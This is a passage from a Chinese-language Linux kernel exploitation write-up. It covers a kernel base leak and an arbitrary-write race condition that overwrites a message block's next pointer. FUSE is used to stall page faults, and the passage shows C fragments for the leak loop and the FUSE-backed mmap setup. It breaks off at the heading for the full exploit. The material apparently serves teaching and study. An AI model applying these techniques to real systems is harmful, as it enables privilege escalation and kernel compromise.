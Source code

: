 ```c
		kbase = do_check_leak(received);
		if (kbase) {
			return (void*)kbase;
		}
	}
	puts("[X] No leaks, trying again");
	close(fd);
	return 0;
}

```

#### 3-2 任意地址写思路

**任意写**：利用竞争条件。

- （1）分配第1个消息块；
- （2）拷贝第1个消息，触发页错误暂停；
- （3）分配第2个消息块；
- （4）覆盖第1个消息的next指针；
- （5）我们的数据被拷贝到next指针指向的地址。

我们要确保（4）发生在（5）之前，可以用 userfaultfd，但是5.11版本以后就无法在用户层处理内核层的页错误了；还有种方法是利用FUSE。

#### 3-3 FUSE 页错误处理

**FUSE简介**：内核允许用户实现自己的用户态文件系统（**F**ilsystem in **USE**rspace），有自己的`read` / `write` 系统调用，这样发生缺页时还是会回到用户态来处理中断。我们可以实现一个迷你的 FUSE 文件系统（通过和`/dev/fuse`交互），打开并调用`mmap`映射到内存，将返回地址传到内核，当内核尝试读取FUSE中的地址时，会调用我们定义的 `read` 处理函数，为了只在读第一个4096堆块数据之后触发页错误，我们将分配两块内存，第一块是常规内存，第2块是FUSE相关的。

**问题**：一是FUSE要求我们非特权用户能访问 `/bin/fusermount`，通过unshare能绕过该限制；二是用户需要写个 `libfuse` 库使 `libfuse` 函数正常工作，但是 `libfuse` 很难静态链接 （见 [issue](https://github.com/libfuse/libfuse/issues/383)，因为依赖于 `dl_open`）作者直接移除了所有对 `dl_open` 的引用，并重新编译了 `libfuse` 库，这样FUSE技术就能应用于所有开启 `CONFIG_FUSE` 的内核了。

```c
void *evil_page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED, 0, 0);
uint64_t race_page = 0x1338000;
puts("[*] Preparing fault handlers via FUSE");
int evil_fd = open("evil/evil", O_RDWR);
if (evil_fd < 0) {
  perror("evil fd failed");
  exit(-1);
}
if ((mmap(0x1338000, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED|MAP_FIXED, evil_fd, 0)) != 0x1338000) {
  perror("mmap fail fuse 1");
  exit(-1);
}
```

#### 3-4 完整利用

**总体利用步骤**：
